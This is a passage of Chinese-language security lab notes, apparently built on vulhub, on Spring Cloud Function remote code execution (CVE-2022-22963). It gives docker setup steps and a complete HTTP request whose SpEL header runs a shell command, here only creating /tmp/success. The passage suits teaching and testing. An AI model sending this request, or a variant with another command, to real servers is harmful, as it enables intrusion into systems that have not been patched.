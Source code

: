 

1.  执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：  

![img](assets/1669926118094-dd62921d-8df3-43ac-a142-48474ffef8d4.png)

参考笔记：

1. https://vulhub.org/#/environments/spring/CVE-2018-1273/

## Spring Cloud Function 远程代码执行

```
Spring Cloud Function SpEL Code Injection (CVE-2022-22963)
```

漏洞介绍

 Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。  



漏洞环境搭建

Ubantu、docker、vulhub

```
spring-cloud-function:3.2.2 
1.
cd /vulhub/sprint/CVE-2022-22963/

2.
docker-compose up -d
```

 服务启动后，执行`curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test`即可执行uppercase函数，将输入字符串转换成大写。  



1. 发送如下数据包，`spring.cloud.function.routing-expression`头中包含的SpEL表达式将会被执行：  

```python
POST /functionRouter HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```
